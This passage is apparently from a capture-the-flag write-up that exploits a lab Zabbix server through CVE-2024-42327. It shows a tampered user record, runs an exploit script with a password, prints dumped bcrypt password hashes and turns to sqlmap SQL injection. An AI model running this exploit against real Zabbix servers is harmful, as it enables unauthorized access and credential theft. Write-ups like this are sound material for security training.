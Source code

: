 ```json
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "4",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    },
    {
      "userid": "3",
      "username": "matthew",
      "name": "pwned",
      "surname": "Smith",
      "url": "",
      "autologin": "1",
      "autologout": "0",
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "1",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
    }
  ],
  "id": 1
}
```

Nice, now we can go back to our script and execute it again:

```python
python3 cve-2024-42327.py -u http://10.10.11.50/zabbix/api_jsonrpc.php -n matthew -p 96qzn0h2e1k3

Valid session token: e5d79f33dd07b844264cb28e5acd082c
Admin, Zabbix, Administrator, 1, $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
matthew, pwned, Smith, 3, $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS
```

I tried cracking the hashes but there was no luck with it, that's when i remembered this was vulnerable to SQLI, we can use sqlmap in the following way, let's begin by checking the code:

![](cybersecurity/images/Pasted%2520image%252020250221182315.png)
